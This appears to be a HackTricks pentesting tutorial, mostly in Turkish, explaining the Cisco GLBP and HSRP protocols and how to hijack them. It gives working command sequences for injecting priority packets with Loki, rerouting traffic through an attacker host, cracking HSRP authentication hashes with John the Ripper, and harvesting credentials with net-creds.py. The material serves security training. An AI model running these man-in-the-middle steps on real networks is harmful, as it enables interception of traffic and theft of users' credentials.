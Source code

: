 # GLBP & HSRP Saldırıları

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Kaçırma Genel Görünümü

### FHRP Hakkında Bilgiler
FHRP, birden fazla yönlendiriciyi tek bir sanal birimde birleştirerek ağ dayanıklılığı sağlamak için tasarlanmıştır ve böylece yük dağılımını ve hata toleransını artırır. Cisco Systems, bu pakette GLBP ve HSRP gibi önde gelen protokoller tanıtmıştır.

### GLBP Protokolü Hakkında Bilgiler
Cisco'nun yarattığı GLBP, TCP/IP yığınında çalışır ve iletişim için 3222 numaralı portta UDP kullanır. GLBP grubundaki yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri değiş tokuş eder. Bir yönlendirici bu paketleri 10 saniye boyunca göndermezse, çevrimdışı olduğu varsayılır. Ancak, bu zamanlayıcılar sabit değildir ve değiştirilebilir.

### GLBP İşlemleri ve Yük Dağıtımı
GLBP, tek bir sanal IP ile birden fazla sanal MAC adresi kullanarak yönlendiriciler arasında yük dağıtımını sağlama yeteneği ile öne çıkar. Bir GLBP grubunda, her yönlendirici paket iletimine katılır. HSRP/VRRP'nin aksine, GLBP, birkaç mekanizma aracılığıyla gerçek yük dengelemesi sunar:

- **Host-Dependent Load Balancing:** Bir hosta sürekli AVF MAC adresi atamasını sürdürür, bu da kararlı NAT yapılandırmaları için gereklidir.
- **Round-Robin Load Balancing:** Varsayılan yaklaşım, istek yapan hostlar arasında AVF MAC adresi atamasını sırayla yapar.
- **Weighted Round-Robin Load Balancing:** Yükü önceden tanımlanmış "Ağırlık" metriklerine göre dağıtır.

### GLBP'deki Ana Bileşenler ve Terimler
- **AVG (Aktif Sanal Geçit):** MAC adreslerini eş yönlendiricilere tahsis etmekten sorumlu ana yönlendirici.
- **AVF (Aktif Sanal İletici):** Ağ trafiğini yönetmekle görevlendirilmiş bir yönlendirici.
- **GLBP Önceliği:** AVG'yi belirleyen bir metrik, varsayılan olarak 100 ile başlar ve 1 ile 255 arasında değişir.
- **GLBP Ağırlığı:** Bir yönlendiricinin mevcut yükünü yansıtır, manuel olarak veya Nesne Takibi aracılığıyla ayarlanabilir.
- **GLBP Sanal IP Adresi:** Tüm bağlı cihazlar için ağın varsayılan geçidi olarak hizmet eder.

GLBP, etkileşimler için 224.0.0.102 rezerve edilmiş çoklu yayın adresini ve UDP 3222 portunu kullanır. Yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri gönderir ve 10 saniyelik bir süre içinde bir paket kaçırılırsa, çalışmıyor olarak kabul edilir.

### GLBP Saldırı Mekanizması
Bir saldırgan, en yüksek öncelik değeri (255) ile bir GLBP paketi göndererek ana yönlendirici olabilir. Bu, trafik kesintisi veya yönlendirmesi sağlayarak DoS veya MITM saldırılarına yol açabilir.

### Loki ile GLBP Saldırısı Gerçekleştirme
[Loki](https://github.com/raizo62/loki_on_kali), öncelik ve ağırlığı 255 olarak ayarlanmış bir paket enjekte ederek GLBP saldırısı gerçekleştirebilir. Saldırı öncesi adımlar, sanal IP adresi, kimlik doğrulama varlığı ve yönlendirici öncelik değerleri gibi bilgilerin toplanmasını içerir; bu, Wireshark gibi araçlar kullanılarak yapılır.

Saldırı Adımları:
1. Promiscuous moduna geçin ve IP yönlendirmesini etkinleştirin.
2. Hedef yönlendiriciyi belirleyin ve IP'sini alın.
3. Bir Gratuitous ARP oluşturun.
4. AVG'yi taklit eden kötü niyetli bir GLBP paketi enjekte edin.
5. Saldırganın ağ arayüzüne, GLBP sanal IP'sini yansıtan bir ikincil IP adresi atayın.
6. Tam trafik görünürlüğü için SNAT uygulayın.
7. Orijinal AVG yönlendiricisi üzerinden internet erişiminin devam etmesini sağlamak için yönlendirmeyi ayarlayın.

Bu adımları izleyerek, saldırgan kendisini "orta adam" olarak konumlandırır ve ağ trafiğini, şifrelenmemiş veya hassas verileri dahil olmak üzere, kesip analiz edebilir.

Demonstrasyon için gerekli komut parçacıkları:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

### Passive Explanation of HSRP Hijacking with Command Details

#### Overview of HSRP (Hot Standby Router/Redundancy Protocol)
HSRP, Cisco'ya ait bir protokoldür ve ağ geçidi yedekliliği için tasarlanmıştır. Birden fazla fiziksel yönlendiricinin tek bir mantıksal birim olarak yapılandırılmasına ve paylaşılan bir IP adresi ile yönetilmesine olanak tanır. Bu mantıksal birim, trafiği yönlendirmekten sorumlu birincil yönlendirici tarafından yönetilir. Yük dengelemesi için öncelik ve ağırlık gibi metrikler kullanan GLBP'nin aksine, HSRP, trafik yönetimi için tek bir aktif yönlendiriciye dayanır.

#### Roles and Terminology in HSRP
- **HSRP Aktif Yönlendirici**: Trafik akışını yöneten geçit olarak hareket eden cihaz.
- **HSRP Bekleme Yönlendirici**: Aktif yönlendirici arızalandığında devralmaya hazır yedek yönlendirici.
- **HSRP Grubu**: Tek bir dayanıklı sanal yönlendirici oluşturmak için işbirliği yapan yönlendiriciler seti.
- **HSRP MAC Adresi**: HSRP kurulumundaki mantıksal yönlendiriciye atanan sanal MAC adresi.
- **HSRP Sanal IP Adresi**: HSRP grubunun sanal IP adresi, bağlı cihazlar için varsayılan geçit olarak işlev görür.

#### HSRP Versions
HSRP, grup kapasitesi, çoklu IP kullanımı ve sanal MAC adresi yapısı açısından farklılık gösteren iki versiyona sahiptir: HSRPv1 ve HSRPv2. Protokol, hizmet bilgisi alışverişi için belirli çoklu IP adreslerini kullanır ve her 3 saniyede bir Hello paketleri gönderir. 10 saniyelik bir aralık içinde paket alınmazsa, bir yönlendirici pasif kabul edilir.

#### HSRP Attack Mechanism
HSRP saldırıları, maksimum öncelik değeri enjekte ederek Aktif Yönlendirici'nin rolünü zorla devralmayı içerir. Bu, Man-In-The-Middle (MITM) saldırısına yol açabilir. Saldırı öncesi temel adımlar, HSRP kurulumuna dair veri toplamayı içerir; bu, trafik analizi için Wireshark kullanılarak yapılabilir.

#### Steps for Bypassing HSRP Authentication
1. HSRP verilerini içeren ağ trafiğini .pcap dosyası olarak kaydedin.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. .pcap dosyasından MD5 hash'lerini hsrp2john.py kullanarak çıkarın.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper kullanarak MD5 hash'lerini kırın.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executing HSRP Injection with Loki**

1. HSRP reklamlarını tanımlamak için Loki'yi başlatın.
2. Ağ arayüzünü promiscuous moda ayarlayın ve IP yönlendirmesini etkinleştirin.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki'yi belirli yönlendiriciye hedef almak için kullanın, kırılmış HSRP şifresini girin ve Aktif Yönlendirici'yi taklit etmek için gerekli yapılandırmaları yapın.
4. Aktif Yönlendirici rolünü kazandıktan sonra, ağ arayüzünüzü ve IP tablolarınızı meşru trafiği yakalamak için yapılandırın.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Trafiği eski Aktif Yönlendirici üzerinden yönlendirmek için yönlendirme tablosunu değiştirin.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Yakalanan trafikten kimlik bilgilerini almak için net-creds.py veya benzeri bir yardımcı program kullanın.
```shell
sudo python2 net-creds.py -i eth0
```

Bu adımları uygulamak, saldırganı trafiği yakalamak ve manipüle etmek için bir konuma getirir; bu, GLBP kaçırma prosedürüyle benzerdir. Bu, HSRP gibi yedeklilik protokollerindeki zayıflığı ve sağlam güvenlik önlemlerine olan ihtiyacı vurgular.


## References
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
